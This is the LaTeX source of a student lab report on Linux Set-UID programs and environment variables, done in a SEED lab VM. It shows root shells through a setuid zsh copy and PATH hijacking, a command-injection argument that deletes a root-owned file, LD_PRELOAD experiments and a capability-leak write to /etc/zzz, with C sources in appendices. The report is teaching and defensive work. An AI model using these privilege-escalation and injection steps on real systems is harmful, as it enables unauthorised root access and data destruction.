%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usepackage{mwe}
\usetikzlibrary{decorations.pathreplacing}
\usepackage{mathtools}
\usepackage{enumitem}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}
\usepackage{soul} 

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3.5cm,
	top=3cm,
	bottom=3cm
}

\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother
\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
		\node[shape=circle,draw,inner sep=2pt] (char) {#1};}}


\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\newcommand{\setuid}{\texttt{Set-UID}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\includegraphics[width = \textwidth]{logo_ntu_new.png}
			\vspace*{7em}
			
			
			\Huge MH4920:\\Supervised Independent Study I\\		
			\LARGE
			\vspace{2cm}
			\textbf{By\\ Brandon Goh Wen Heng}\\\vspace{2cm}
			Supervisor: Assoc Prof Wu Hongjun
			\\\vspace{2cm}January 2018\\
			Academic Year 17/18\\\vspace{1.2cm}
			
			\vfill
		\end{center}
\end{titlepage}





	
%%%%%%%%%%%%%% PDF 5 - PDF 1 Amended Order %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		\textbf{Set-UID\\}		
		\vfill
	\end{center}
\end{titlepage}
\pagenumbering{roman}
\newpage
\pagenumbering{arabic}
\setcounter{section}{0}
\section{Introduction}
\setuid allows the user to assume the privileges of the owner when the program is executed. However, misuse and exploitation of \texttt{Set-UID} programs can result in the system shell being exposed.
\section{Overview}
This lab will explore the importance, usefulness and potential security loopholes of using \texttt{Set-UID} programs.
\newpage
\section{Lab}
\subsection{Analysing Requirements of \texttt{Set-UID} Programs}
We first look at some \texttt{Set-UID} programs, mainly \texttt{passwd}, \texttt{chsh}, \texttt{su} and \texttt{sudo}. Before analysing why these are \texttt{Set-UID} programs, the functions of these programs need to be understood first.
\begin{enumerate}
	\item \texttt{passwd} is used to change or set the password of the user.
	\item \texttt{chsh} is used to change the directory of the login shell.
	\item \texttt{su} is used to run command with substitute user and group ID.
	\item \texttt{sudo} is used to execute programs as another user.
\end{enumerate}
The four programs listed above perform tasks requiring privileges that the user does not have, such as modification of passwords within a system file. Therefore \texttt{Set-UID} programs are needed for the user to obtain temporary privilege escalation to complete the tasks required.\\\\The next step would be to copy these programs into our local directory. Copying these programs would result in the loss of its \texttt{Set-UID} properties. 
\begin{verbatim}
$ cp /bin/su ~
$ cp /usr/bin/chsh ~
$ cp /usr/bin/passwd ~
$ cp /usr/bin/sudo ~
\end{verbatim}
\begin{figure}[!h]
	\centering
	\begin{minipage}{0.5\linewidth}
		\centering
		\includegraphics[width=0.98\linewidth]{setuidpasswd}
		\caption{\texttt{Set-UID passwd} program}
		\label{fig:setuidpasswd}
	\end{minipage}%
	\begin{minipage}{0.5\linewidth}
		\centering
		\includegraphics[width=0.98\linewidth]{setuidchsh}
		\caption{\texttt{Set-UID chsh} program}
		\label{fig:setuidchsh}
	\end{minipage}
\end{figure}
\begin{figure}[!h]
	\centering
	\begin{minipage}{0.5\linewidth}
		\centering
		\includegraphics[width=0.98\linewidth]{setuidsu}
		\caption{\texttt{Set-UID su} program}
		\label{fig:setuidsu}
	\end{minipage}%
	\begin{minipage}{0.5\linewidth}
		\centering
		\includegraphics[width=0.98\linewidth]{setuidsudo}
		\caption{\texttt{Set-UID sudo} program}
		\label{fig:setuidsudo}
	\end{minipage}
\end{figure}
\subsection{Copying \texttt{Set-UID} Programs}
This section looks at the results of copying \texttt{Set-UID} programs to a different directory while still maintaining the properties of a \texttt{Set-UID} program. \\\\A program \texttt{zsh} in the directory \texttt{/bin} is copied to the directory \texttt{/tmp}, with owner as root with permission 4755. A normal user is used to run the program and shell access can be obtained with root privileges.
\begin{verbatim}
$ su
# cp /bin/zsh /tmp
# chmod 4755 /tmp/zsh
# exit
$ /tmp/zsh
\end{verbatim}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{zshroot}
	\caption{Shell access with \texttt{zsh}}
	\label{fig:zshroot}
\end{figure}
The same steps were performed for \texttt{/bin/bash} and execution of \texttt{/tmp/bash} does not give root privilege in the shell. This is due to \texttt{bash} checking whether the effective user id (euid) is the same as the real user id (ruid). If the euid and ruid are not the same, then the euid is set as the ruid\footnote{\url{https://linux.die.net/man/1/bash}}. Therefore, the only way to obtain root privileges in \texttt{bash} is to have the root user execute scripts in \texttt{bash}.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{bashnoroot}
	\caption{No root access with \texttt{bash}}
	\label{fig:bashnoroot}
\end{figure}
\subsection{Removal of \setuid Mechanism}
This section will look at Linux where the built-in protection that prevented the abuse of \setuid mechanism was not yet implemented. To perform the required tasks, \texttt{/bin/zsh} is used instead of \texttt{/bin/dash}. As \texttt{/bin/sh} is a symbolic link to \texttt{/bin/bash}, the following lines of code are required to change the symbolic link.
\begin{verbatim}
$ su 
# cd /bin
# rm sh
# ln -s zsh sh
\end{verbatim}
\subsection{\texttt{PATH} Environment Variable} \label{PATH}
Using \texttt{system} as a \texttt{Set-UID} program is dangerous as the \texttt{PATH} environment variable can be exploited to run malicious code. In this subsection, a \texttt{Set-UID} program written in \texttt{C} is defined such that it uses the \texttt{system} command to execute \texttt{ls}. The program is  compiled with the name \textit{setuidpath} for readability purposes and the code can be referenced in the \hyperref[Appsec:3.6]{Appendix}. The \texttt{PATH} environment variable is now edited to point to another directory and placed at the front. Placing the directory at the front ensures that the program will always look into our added directory first before moving on to the following directories in the list to find the respective program to be executed. In this instance, we run the following code to update \texttt{PATH},
\begin{verbatim}$ export PATH=/home/seed:$PATH\end{verbatim}
We create a file that calls \texttt{sh} using system. The code has also been attached in the \hyperref[Appsec:3.6.2]{Appendix}. The following line of code is run to ensure that the code is being compiled into a program with the name \texttt{ls} in the directory \texttt{/home/seed} that was just added.
\begin{verbatim}
$ gcc -o ls callsh.c
\end{verbatim}
When \textit{setuidpath} is run, a shell is obtained as the process that calls the shell is privileged. Further scripting reveals that we have obtained root access to the system using a \texttt{Set-UID} program.\\

\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{PATHexploit}
	\caption{Root Privilege Obtained}
	\label{fig:pathexploit}
\end{figure}
\noindent Now the symbolic link of \texttt{sh} is pointed back to \texttt{/bin/bash} and the experiment is repeated. This time, the same thing happens and root shell can be obtained. Due to this, any code can be executed with root privileges. This was checked again by deploying a clean virtual machine and ensuring that \texttt{sh} was pointed to \texttt{/bin/bash}. The symbolic link was checked using the following command.
\begin{verbatim}
$ ll /bin/sh
\end{verbatim}
It is also important to take note that \texttt{ll} is an alias of \texttt{ls -l} and hence the \texttt{PATH} environment variable must not include the directory where the user-defined \texttt{ls} is located.
\\\\ Further analysis performed on \texttt{sh} shows that the euid is not dropped with \texttt{sh 4.2}. \hyperref[addnotes]{Additional Notes} at the end of this report provides additional analysis performed on the different shells. However, if the directory in the call shell \texttt{C} code is changed to \texttt{/bin/bash}, root shell \textbf{cannot} be obtained.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{bashnoroot2}
	\caption{No root acces}
	\label{fig:bashnoroot2}
\end{figure}

\noindent The results of this subsection proves that it is extremely dangerous when a \texttt{Set-UID} program uses the \texttt{system} command. It has also been shown that the \texttt{PATH} environment variable can be easily edited by a malicious user even without root privileges. Furthermore, using a relative path further increases the risk of the system being compromised. The method of circumventing this problem is to use absolute path when executing a program.
\subsection{Differences between \texttt{system()} Versus \texttt{execve()}}
In this section, we look at the differences in the execution of the command \texttt{system()} and \texttt{execve()}. For this part, the symbolic link of \texttt{sh} is pointed back to \texttt{/bin/bash}. To do so, the following commands will suffice.
\begin{verbatim}
$ su
# cd /bin
# ln -sf zsh sh
# exit
\end{verbatim}
The \hyperref[Appsec:sysexec]{code} provided in this section is for a user to use \setuid program to be able to read files using the \texttt{cat} function that is built in. We look at the level of security that is provided by these two programs and a way to exploit the program.\\\\A random text file with the file name \texttt{sometext.txt} is created with permission 600 and owner as set as root. This is for the program to be able to execute the \texttt{cat} function. We compile our code under the file name sysexec and execute the following code to obtain to remove files.
\begin{verbatim}
$ su
# gcc -o sysexec sysexec.c
# chmod 4755 sysexec
# exit
$ sysexec "sometext.txt;rm sometext.txt"
\end{verbatim}
The file was deleted as a result of the execution of the command above. This is due to the execution of \texttt{rm} which was performed with root privileges and hence the operation would be successful as a result. It is important that the parameters of \texttt{sysexec} must be in the inverted commas, separated with a semi-colon. This would cause multiple programs to run under the \texttt{system} command and have elevated privileges.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{rmsuccess}
	\caption{Successful Removal of File}
	\label{fig:rmsuccess}
\end{figure}
\noindent When the file is now compiled to use \texttt{execve} instead of \texttt{system}, the file cannot be removed as \texttt{execve} reads the parameter in its entirety and does not execute two separate commands. This method prevents the user from executing any code outside of what the owner intended.
\subsection{\texttt{LD\_PRELOAD} Environment Variable \& \texttt{Set-UID}}
The current subsection will focus on how \texttt{Set-UID} programs interact with \texttt{LD\_}\textbf{*} environment variables, in particular \texttt{LD\_PRELOAD}. The \texttt{LD\_}\textbf{*} environment variables affect the behaviour of the dynamic loaders in Linux and \texttt{LD\_PRELOAD} specifies additional user-specified shared library directories to be loaded before using the default set of directories.\\\\
A dynamic link library is created to replace the \texttt{sleep()} function in \texttt{libc}. The code for this library is attached in the \hyperref[Appsec:3.7]{Appendix}. This is compiled and \texttt{LD\_PRELOAD} is now edited to include the newly compiled library.
\begin{verbatim}
$ gcc -fPIC -g -c mylib.c
$ gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
$ export LD_PRELOAD=./libmylib.so.1.0.1
\end{verbatim}
The \texttt{-fPIC} argument is used to ensure that the code generated is independent of the virtual address. Using \texttt{PIC} instead of \texttt{pic} ensures that the code generated is platform independent.\\\\A new program \textit{myprog} is created to execute the \texttt{sleep} function. The code for this simple program can be referenced from the \hyperref[Appsec:3.7.2]{Appendix}. When \textit{myprog} is run under the following circumstances, the results obtained were different.
\begin{enumerate}
	\item Running \textit{myprog} as a regular program and executing as a normal user, the string ``I am not sleeping!'' is displayed, which shows that the \texttt{LD\_PRELOAD} environment variable was loaded.
	\item Running \textit{myprog} as a \texttt{Set-UID} program and running it with a normal user will result in the program going to sleep for 5 seconds. This shows that \texttt{LD\_PRELOAD} was ignored by the linker. (To observe the results clearly, \texttt{sleep(1)} was amended to \texttt{sleep(5)} instead.)
	\item Running \textit{myprog} as a \texttt{Set-UID} program and exporting the \texttt{LD\_PRELOAD} environment variable under the root account results in the string being displayed. In this instance, the \texttt{LD\_PRELOAD} environment variable was loaded.
	\item Setting \textit{myprog} as a user1 \texttt{Set-UID} program with \texttt{LD\_PRELOAD} environment variable set under user2 and executing it results in the program going to sleep for 5 seconds, also indicating that \texttt{LD\_PRELOAD} was ignored.
\end{enumerate}
We analyse the results obtained from the four different conditions and notice that the \texttt{LD\_PRELOAD} is ignored if the owner and the user executing the program is different, then there will be no execution of the user-defined library.
\subsection{Relinquishing Privileges and Cleanup}
In this section, we take a look at relinquishing privileges, where privileges are permanently downgraded after execution. Using \texttt{setuid()} sets the effective user ID of the calling process and removes root privileges if the user executing the program is not root.\\\\In the \texttt{C} code provided for \hyperref[Appsec:3.72]{this section}, a vulnerability can be found in the program where root access is revoked but the file that was previously opened under root privileges is still able to have its file edited. 
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{capleak}
	\caption{Capability Leaking}
	\label{fig:capleak}
\end{figure}
\noindent In Figure 10, it can be seen that the file was successfully written as the handle that opens the file still retains root privileges and as a result is successful in writing the contents into the file even after \texttt{setuid(getuid())} has been executed.
\newpage
\section{Appendix}
\subsection{\texttt{PATH} Environment Variable}
\label{Appsec:3.6}
\begin{minted}{C}
int main()
{
    system("ls");
    return 0;
}
\end{minted}
\subsection{Call Shell}
\label{Appsec:3.6.2}
\begin{minted}{C}
int main()
{
    system("/bin/sh");
    return 0;
}
\end{minted}
\subsection{\texttt{system()} Versus \texttt{execve()}}
\label{Appsec:sysexec}
\begin{minted}{C}
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    char *v[3];

    if (argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0]="/bin/cat";
    v[1]=argv[1];
    v[2]=0;

    /*Set q=0 for part a, and q=1 for part b*/
    int q=0;
    if (q==0) {
        char *command = malloc(strlen(v[0])+strlen(v[1])+2);
        sprintf(command, "%s %s", v[0], v[1]);
        system(command);
    }
    else execve(v[0], v, 0);

    return 0;
}
\end{minted}
\subsection{\texttt{sleep()} Library}
\label{Appsec:3.7}
\begin{minted}{C}
#include <stdio.h>

void sleep (int s)
{
    printf("I am not sleeping!\n");
}
\end{minted}
\subsection{Execute \texttt{sleep()} Function}
\begin{minted}{C}
int main()
{
    sleep(1);
    return 0;
}
\end{minted}
\newpage
\subsection{Relinquishing Privileges and Cleanup}
\label{Appsec:3.72}
\begin{minted}{C}
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void main()
{
    int fd;
    fd = open("/etc/zzz", O_RDWR | O_APPEND);
    if (fd==-1) {
        printf("Cannot open /etc/zzz\n");
        exit(0);
    }

    sleep(1);

    setuid(getuid());

    if (fork()){
        close (fd);
        exit(0);
    } else {
        write(fd, "Malicious Data\n", 15);
        close (fd);
    }
}
\end{minted}
\newpage
\section{Additional Notes}
It has been found that \texttt{sh 4.2} does not drop privileges in POSIX mode even when declared without the \texttt{-p} option\footnotetext{\url{https://lists.gnu.org/archive/html/bug-bash/2012-10/msg00134.html}}. Two files were created to print the euid and ruid of the various shell programs in Ubuntu 12.04 (provided Seed VM) and Ubuntu 16.04 (Server distribution on Microsoft Azure). The bug has been fixed in \texttt{sh 4.3} and cannot be replicated on the newer operating systems.\\\\
The following lines of code were used to prepare the files needed for execution to generate the table of ruid/uid, euid and suid.
\begin{verbatim}
$ gcc -o print-uids prtuid.c
$ su
# gcc -o system-suid sysuid.c
# chmod 4755 sysuid
# exit
\end{verbatim}
\subsection{Results}
\begin{table}[h]
	\centering
	\label{sh4.2tab}
	\bgroup
	\def\arraystretch{1.3}
	\begin{tabular}{l|l|l|l}
		Shell/PID      & RUID/UID    & EUID        & SUID    \\ \hline
		{[}25558{]}    & ruid = 1000 & euid = 0    & suid =0 \\ \hline
		\{25557\}      & uid = 1000  & euid = 0    &         \\ \cline{1-3}
		sh\{25559\}    & uid = 1000  & euid = 0    &         \\ \cline{1-3}
		bash4\{25560\} & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		ksh\{25561\}   & uid = 1000  & euid = 0    &         \\ \cline{1-3}
		dash\{25564\}  & uid = 1000  & euid = 0    &         \\ \cline{1-3}
		zsh\{25567\}   & uid = 1000  & euid = 0    &        
	\end{tabular}
	\egroup
	\caption{Ubuntu 12.04 (Seed VM)}
\end{table}
\begin{table}[h]
	\centering
	\label{sh4.3tab}
	\bgroup
	\def\arraystretch{1.3}
	\begin{tabular}{l|l|l|l}
		Shell/PID      & RUID/UID    & EUID        & SUID    \\ \hline
		{[}49143{]}    & ruid = 1000 & euid = 1000 & suid = 1000 \\ \hline
		\{49142\}      & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		sh\{49144\}    & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		bash4\{49145\} & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		dash\{49146\}  & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		zsh\{49149\}   & uid = 1000  & euid = 1000 &         
	\end{tabular}
	\egroup
	\caption{Ubuntu 16.04 Server (Microsoft Azure)}
\end{table}
\noindent From the two tables above, we note that there are no issues in using \texttt{Set-UID} programs in Ubuntu 16.04 to call the different shells as all practice the principle of least privileges. In Ubuntu 12.04 however, the euid is not downgraded and using \setuid programs to call any shell except \texttt{bash} will result in root privilege access. 
\subsection{Print UID: \texttt{prtuid.c}}
\label{addnotes}
\begin{minted}{C}
#define _GNU_SOURCE
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main (void)
{
    uid_t ruid, euid, suid;
    getresuid (&ruid, &euid, &suid);
    printf ("[%d] ruid = %d, euid = %d, suid = %d\n",
    getpid(), ruid, euid, suid);
    return 0;
}
\end{minted}
\newpage
\subsection{Print System SUID: \texttt{sysuid.c}}
\begin{minted}{C}
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
int main (void)
{
    //bash3, bash2 is commented out for Ubuntu 12.04
    //bash3, bash2, ksh is commented out for Ubuntu 16.04
    //zsh should be commented out if not installed
    return system(
        "./print-uids"
        " && "
        "echo {$$} uid: $UID, euid: $EUID"
        " && "
        "/bin/sh -c 'echo sh{$$} uid: $UID, euid: $EUID'"
        " && "
        "/bin/bash -c 'echo bash4{$$} uid: $UID, euid: $EUID'"
        " && "
        "bash-3.0 -c 'echo bash3{$$} uid: $UID, euid: $EUID'"
        " && "
        "bash-2.0 -c 'echo bash2{$$} uid: $UID, euid: $EUID'"
        " && "
        "ksh -c 'echo ksh{$$} uid: $(id -r -u), euid: $(id -u)'"
        " && "
        "dash -c 'echo dash{$$} uid: $(id -r -u), euid: $(id -u)'"
        " && "
        "zsh -c 'echo zsh{$$} uid: $(id -r -u), euid: $(id -u)'"
    );
}
\end{minted}
	
%%%%%%%%%% PDF 4 - PDF 2 Amended Order%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		\textbf{Environment Variable \& Set-UID\\}		
		\vfill
	\end{center}
\end{titlepage}
\pagenumbering{roman}
\newpage
\pagenumbering{arabic}
\setcounter{section}{0}
\section{Introduction}
Environment variables are dynamic-named variables that affects running programs on a particular system. Common environment variables include \texttt{PATH}, where it is used to locate files for execution and \texttt{TMP}, used to describe the location or folder to store temporary files.
\section{Overview}
This lab will explore the use of environment variables, the process of propagation from parent to child processes and how environment variables affect running processes in the system. In particular, we pay special attention to the use of environment variables with respect to Set-UID programs.
\newpage
\section{Lab}
\subsection{Manipulating Environment Variables}
{\par \noindent We look at the basics of environment variables, which is to firstly set, list and remove the variables.}
\begin{enumerate}
	\item To set environment variables, we use the \texttt{export} command.
	\item To list the environment variables, the commands \texttt{env | grep <env name>} or \texttt{printenv}.
	\item To remove environment variables, \texttt{unset} command is nice.
\end{enumerate}
{\par \noindent Looking in detail at the execution of this commands, the figure below lists environment variables that exists in the system by default.}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.95\linewidth]{ListEnv}
	\caption{Environment Variable List}
	\label{fig:listenv}
\end{figure}

{\par \noindent Environment variables can be inserted into the system using \texttt{export} where needed. In this instance, the environment variable \texttt{SOMEVAR} is set with the value \texttt{defined}. Figure 3 shows the existence of the newly defined environment variable and can now be located when we query the list of environment variables. The user-defined variable is highlighted in \text{\color{red}red}.}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{VarDef}
	\caption{Defined Environment Variable}
	\label{fig:vardef}
\end{figure}
{\par \noindent Finally, removing the user-defined environment variable requires the use of the \texttt{unset} command and it will not be displayed when the \texttt{env | grep SOMEVAR} command is executed.}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{VarRemoval}
	\caption{Removal of Environment Variable}
	\label{fig:varremoval}
\end{figure}

\subsection{Process Inheritance}
{\par \noindent In the current subsection, we fork the parent process to study how the environment variables affect both the parent and the child process. We also look at the inheritance properties of these processes. The \texttt{C} code that helps us to print the environment variables for the child and the parent process has been attached to the \hyperref[Appsec:3.2]{Appendix}.\\}
{\par \noindent The code below compiles the \texttt{C} code for the parent and child process separately (after toggling the respective \texttt{printenv()} lines), executes the two programs and makes use of the \texttt{diff} command to show the difference in the outputs of the environment variables of the parent and the child process.}
\begin{verbatim}
$ gcc -o childproc childprocess.c
$ gcc -o parproc parprocess.c
$ parproc > parproc.txt && childproc > childproc.txt
$ diff parproc.txt childproc.txt > diff.txt
\end{verbatim}
The output from the \texttt{diff} command only lies in the last line where it denotes the name of the file being executed. Figure 4 shows the graphical output from the terminal. This indicates that the same set of environment variables residing on the system affects both the parent and the child processes.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{NoDiffVar}
	\caption{No Difference in Environment Variables}
	\label{fig:nodiffvar}
\end{figure}
\subsection{Execution of \texttt{execve()}}
{\par \noindent The \texttt{execve()} command is analysed in this subsection, to determine whether the execution of the program is affected by the environment variables. The \texttt{C} code that will be used has been attached to the \hyperref[Appsec:3.3]{Appendix}.}\\
{\par \noindent We need to first look at the function header of \texttt{execve()} and understand its function before continuing.}
\begin{verbatim}
execve(const char *filename, char *const argv[], 
char *const envp[]);
\end{verbatim}
The first parameter is the file to be executed or the command name, while the second parameter will include the parameters for the executed file. The last parameter will include the environment variables that may be used by the program during execution with the form \textit{Name=Value}. If there are no environment variables to be included in the execution of the program, ``\texttt{NULL}'' is used.\\\\
When executing the \texttt{C} program with the following line,
\begin{verbatim}
execve("/usr/bin/env", argv, NULL);
\end{verbatim}
there is no output from the program. This is due to the existence of \texttt{NULL} in the third parameter of the function. When \texttt{NULL} is used, no environment variables are passed when calling the \texttt{env} function and therefore there are no environment variables for output.\\
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{execveNULL}
	\caption{\texttt{NULL} in \texttt{execve}}
	\label{fig:execvenull}
\end{figure}
{\par \noindent The third parameter is now changed from \texttt{NULL} to \texttt{environ}, i.e. 
	\begin{verbatim}execve("/usr/bin/env", argv, environ);\end{verbatim} 
	Execution of this compiled program now shows all the environment variables. \texttt{environ} is used to list all the environment variables in the user environment. As this is passed to the \texttt{env} function, execution will now output all the environment variables in the user environment.}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.95\linewidth]{execveenviron}
	\caption{\texttt{environ} in \texttt{execve}}
	\label{fig:execveenviron}
\end{figure}
\subsection{Execution of \texttt{system()}}
In this subsection, we focus on calling the \texttt{system} function and observe how environment variables are passed. When \texttt{system} is called, \texttt{execl} is executed and the command is passed as one of the parameters. Since \texttt{execl} does not have the parameter where \texttt{const char* envp[]} can be explicitly defined, the variable \texttt{environ} will be used instead. These will be used as the parameters when executing \texttt{execve} and therefore the execution of the code will show all environment variables. The \texttt{C} code used to output the environment variables using \texttt{system} is attached in the \hyperref[Appsec:3.4]{Appendix}.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.95\linewidth]{systemcall}
	\caption{\texttt{system} execution}
	\label{fig:systemcall}
\end{figure}
\subsection{Environment Variables \& \texttt{Set-UID} Programs}
\texttt{Set-UID} is an important security feature in Unix systems. In this subsection, it is important to understand how \texttt{Set-UID} programs are affected by environment variables and the user's process.\\\\To begin, a \texttt{C} program is created to print out all the environment variables in the current process. The \texttt{C} code has been attached in the \hyperref[Appsec:3.5]{Appendix} for reference. Assuming that the program name is \textit{setuid}, we use the following commands to make root the owner of the \texttt{Set-UID} program.
\begin{verbatim}
$ su
# gcc -o setuid setuid.c
# chmod 4755 setuid
$ exit
\end{verbatim}
To examine if the \texttt{Set-UID} program is affected by the user's process, we add three environment variables using the user account (not root).
\begin{verbatim}
$ export PATH=/home/seed/lab:$PATH
$ export LD_LIBRARY_PATH=/home/seed/lib
$ export NEWENV=var
\end{verbatim}
As \texttt{PATH} already exists in the system, \texttt{:\$PATH} is added to the back to ensure that the existing \texttt{PATH} value is concatenated to the back of the newly added value.\\\\Execution of the \texttt{Set-UID} programs shows that the edited \texttt{PATH} and \texttt{NEWENV} are displayed in the output. The \texttt{LD\_LIBRARY\_PATH} is however not in the list of environment variables when the \texttt{Set-UID} program is being run. As \texttt{LD\_LIBRARY\_PATH} can be used to run malicious libraries, it is ignored by default if it is a \texttt{Set-UID} program. Figure 8 and 9 shows the difference in the user environments between a \texttt{Set-UID} and a non \texttt{Set-UID} program.
\begin{figure}[!h]
	\centering
	\begin{minipage}{0.5\linewidth}
		\centering
		\includegraphics[width=0.98\linewidth]{setuidenvvar}
		\caption{\texttt{Set-UID} program}
		\label{fig:setuidenvvar}
	\end{minipage}%
	\begin{minipage}{0.5\linewidth}
		\centering
		\includegraphics[width=0.98\linewidth]{nonsetuidenvvar}
		\caption{Non \texttt{Set-UID} program}
		\label{fig:nonsetuidenvvar}
	\end{minipage}
\end{figure}
\subsection{\texttt{PATH} Environment Variable \& \texttt{Set-UID}}
Using \texttt{system} as a \texttt{Set-UID} program is dangerous as the \texttt{PATH} environment variable can be exploited to run malicious code. In this subsection, we will explore the use of the \texttt{PATH} environment variable and the interaction with the \texttt{Set-UID} program.\\\\A \texttt{Set-UID} program written in \texttt{C} is defined such that it uses the \texttt{system} command to execute \texttt{ls}. The program is  compiled with the name \textit{setuidpath} for readability purposes and the code can be referenced in the \hyperref[Appsec:3.6]{Appendix}. The \texttt{PATH} environment variable is now edited to point to another directory and placed at the front. Placing the directory at the front ensures that the program will always look into our added directory first before moving on to the following directories in the list to find the respective program to be executed. In this instance, we run the following code to update \texttt{PATH},
\begin{verbatim}$ export PATH=/home/seed:$PATH\end{verbatim}
We create a file that calls \texttt{sh} using system. The code has also been attached in the \hyperref[Appsec:3.6.2]{Appendix}. The following line of code is run to ensure that the code is being compiled into a program with the name \texttt{ls} in the directory \texttt{/home/seed} that was just added.
\begin{verbatim}
$ gcc -o ls callsh.c
\end{verbatim}
When \textit{setuidpath} is run, a shell is obtained as the process that calls the shell is privileged. Further scripting reveals that we have obtained root access to the system using a \texttt{Set-UID} program.
\begin{figure}[h]
	\centering
	\includegraphics[width=0.9\linewidth]{PATHexploit}
	\caption{Exploit using \texttt{PATH}}
	\label{fig:pathexploit}
\end{figure}
\\The results of this subsection proves that it is extremely dangerous when a \texttt{Set-UID} program uses the \texttt{system} command. It has also been shown that the \texttt{PATH} environment variable can be easily edited by a malicious user even without root privileges. Furthermore, using a relative path further increases the risk of the system being compromised.
\subsection{\texttt{LD\_PRELOAD} Environment Variable \& \texttt{Set-UID}}
The current subsection will focus on how \texttt{Set-UID} programs interact with \texttt{LD\_}\textbf{*} environment variables, in particular \texttt{LD\_PRELOAD}. The \texttt{LD\_}\textbf{*} environment variables affect the behaviour of the dynamic loaders in Linux and \texttt{LD\_PRELOAD} specifies additional user-specified shared library directories to be loaded before using the default set of directories.\\\\
A dynamic link library is created to replace the \texttt{sleep()} function in \texttt{libc}. The code for this library is attached in the \hyperref[Appsec:3.7]{Appendix}. This is compiled and \texttt{LD\_PRELOAD} is now edited to include the newly compiled library.
\begin{verbatim}
$ gcc -fPIC -g -c mylib.c
$ gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
$ export LD_PRELOAD=./libmylib.so.1.0.1
\end{verbatim}
The \texttt{-fPIC} argument is used to ensure that the code generated is independent of the virtual address. Using \texttt{PIC} instead of \texttt{pic} ensures that the code generated is platform independent.\\\\A new program \textit{myprog} is created to execute the \texttt{sleep} function. The code for this simple program can be referenced from the \hyperref[Appsec:3.7.2]{Appendix}. When \textit{myprog} is run under the following circumstances, the results obtained were different.
\begin{enumerate}
